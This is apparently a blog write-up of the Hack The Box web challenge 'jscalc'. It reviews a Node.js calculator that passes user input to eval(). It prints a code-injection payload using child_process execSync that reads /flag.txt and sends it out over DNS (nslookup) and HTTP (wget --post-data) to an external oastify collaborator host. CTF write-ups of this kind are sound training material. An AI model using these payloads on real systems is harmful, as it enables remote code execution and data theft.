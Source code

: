 ```yaml
---
layout: post
title: jscalc HTB
date: 2024-03-09 18:11 -0500
img_path: /assets/img/jscale/
published: true
categories: ["Hack The Box","Web Challenge"]
tags: ["RCE", "NodeJs"]
toc: true
---
```

# jscalc

In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑

This challenge is very straigth forward, we see on the main page that they use ```eval()```
![WebPage](image.png)
## Source Code Review
Let check the flow on our input in the calculator function.
First modify package.json, Dockerfile and the build-docker.sh to attach our debugger form VSCode. The /routes files define the endpoint /api/calculate, our **formula** parameter pass to Calculator.calculate() function.
![formula](image-1.png)
```javascript
router.post('/api/calculate', (req, res) => {
	let { formula } = req.body;

	if (formula) {
		result = Calculator.calculate(formula);
		return res.send(response(result));
	}

	return res.send(response('Missing parameters'));
})
```
the function is pretty simple
```javascript
    calculate(formula) {
        try {
            return eval(`(function() { return ${formula} ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
```
So if we can break the syntax, we shoul be able to get RCE, something like ```123;}())+console.log(1)//```
## Local Testing
We put a breakpoint on the return eval() line and pass our inpunt via BurpSuite
![RCE](image-2.png)
We are able to execute commands on the system. What command are able inside that docker container, after some test the approach i found was nslookup to exfiltrate flag.
```javascript
require('child_process').execSync('cat /flag.txt | base64 | xargs -I {} nslookup {}.burp.oastify.com')
```

![Poc](image-3.png)

![alt text](image-4.png)

## Proof of concept 
![GG](image-5.png)

That doesn't work for the challenge server so i have to change my payload to 
```json
{"formula":"123;}())+require('child_process').execSync('wget --post-data=$(cat /flag.txt) http://burp.oastify.com/ -O /dev/null')//"}
```
